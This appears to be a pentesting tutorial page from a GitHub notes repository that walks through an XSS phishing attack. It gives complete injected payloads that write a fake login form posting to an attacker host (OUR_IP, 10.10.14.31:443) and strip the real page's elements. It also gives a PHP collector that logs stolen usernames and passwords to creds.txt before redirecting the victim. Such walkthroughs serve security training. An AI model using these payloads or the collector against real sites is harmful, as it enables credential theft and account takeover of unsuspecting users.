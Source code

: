 # XSS Phishing attack.
## Attack Overview
Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.</br>
A common form of XSS phishing attack is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. 
This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.<br />
__This time our target is:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/afc0a1f6-4b50-4f66-bb5a-db7207a3ad04" width="350"><br />
__After injecting our payload:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/8e956fb4-ee2a-4678-a574-bfd36b76e41f" width="350">

## Login Form Injection
This is a simple login form that we can inject.
Code: html
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

After we have found the correct payload, we can try to load the login form. We have to minify our HTML login and add it to our payload.          
__Result (minified html code + XSS payload):__
```html
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')</script>
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/390f7bb2-f462-4396-a6b9-86b9fcf94292
" width="350">

### Making it more realistic.
As we saw in the last picture, we can still see the original web functionality. We must delete it to make our attack more realistic [[#Removing Elements]]. We can delete part of the code that is being shown after our injection too, to do so, we only need to add a JavaScript comment after the payload `<!--`.

#### Removing Elements
For removing Elements we can use `document.getElementById()` function + `.remove()`.
- Obtaining the id of the element we want to remove:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c9e4c784-205a-4c97-8d66-641d5622e3b6" width="700"><br />
- Adding it to our payload:
</br>

```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.31:443><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c2040539-1a58-40c2-97d8-3dafc6a6535f" width="500">

## Executing the attack.
We can create a file to get and write the credentails we obtain into a file. We will create a redirection to the original web page in the same file.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+"); #ESCRIBIENDO LAS CREDENCIALES EN UN ARCHIVO CREDS.TXT
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php"); #REDIRECCIÓN A UNA WEB LEGÍTIMA.
    fclose($file);
    exit();
}
?>
```
Once everything is ready we can send the phishing attack to our victim and just wait listening on the selected port of our payload.
![12](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/73ef1459-0d21-4a31-a150-f1e99496f839)

![13](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/ad3763e1-2ee6-447c-a831-680f03f5a8e2)






